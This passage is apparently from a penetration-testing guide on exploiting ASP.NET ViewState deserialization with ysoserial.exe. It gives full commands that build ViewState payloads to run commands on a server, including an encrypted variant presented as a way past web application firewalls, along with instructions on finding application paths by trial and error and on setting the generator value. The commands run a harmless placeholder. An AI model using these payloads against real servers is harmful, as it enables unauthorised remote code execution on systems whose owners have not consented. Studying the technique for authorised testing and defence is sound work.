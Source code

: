 ```bash
.\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "echo 123 > c:\windows\temp\test.txt" --generator=93D20A1B --validationalg="SHA1" --validationkey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0"
```

_It uses the ActivitySurrogateSelector gadget by default that requires compiling the ExploitClass.cs class in YSoSerial.Net project. The ViewState payload can also be **encrypted**  **to avoid WAFs when the decryptionKey value is known**:_

```bash
.\ysoserial.exe -p ViewState -c "foo to use ActivitySurrogateSelector" --path="/somepath/testaspx/test.aspx" --apppath="/testaspx/" --islegacy --decryptionalg="AES" --decryptionkey="34C69D15ADD80DA4788E6E3D02694230CF8E9ADFDA2708EF43CAEF4C5BC73887" --isencrypted --validationalg="SHA1" --validationkey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0"
```

{% hint style="info" %}
**Note:** Due to the nature of used gadgets in YSoSerial.Net, the target ASP.NET page always responds with an error even when an exploit has been executed successfully on the server-side.
{% endhint %}

#### Application path

it is important to find the root of the application path in order to create a valid ViewState unless:

* The application uses .NET Framework version 4.0 or below; and
* The `__VIEWSTATEGENERATOR` parameter is known.

The following screenshot shows the path tree in IIS:

![](.gitbook/assets/1663772420.png)

You can check [\[20\]](https://docs.microsoft.com/en-us/iis/get-started/planning-your-iis-architecture/understanding-sites-applications-and-virtual-directories-on-iis) if you are not familiar with virtual directory and application terms in IIS.

In order to generate a ViewState for the above URL, the `--path` and `--apppath` arguments should be as follows:

```
--path=/dir1/vDir1/dir2/app1/dir3/app2/vDir2/dir4
--apppath=/app2/ 
```

If we did not know that “app2” was an application name, we could use **trial and error to test all the directory names** in the URL one by one until finding a ViewState that can execute code on the server (perhaps by getting a DNS request or causing a delay).

#### Generator

In this case, the `--generator` argument can be used. The `--isdebug` argument can be used to check whether the plugin also calculates the same `__VIEWSTATEGENERATOR` parameter when the `--path` and `--apppath` arguments have been provided.

### Exploiting Older Versions
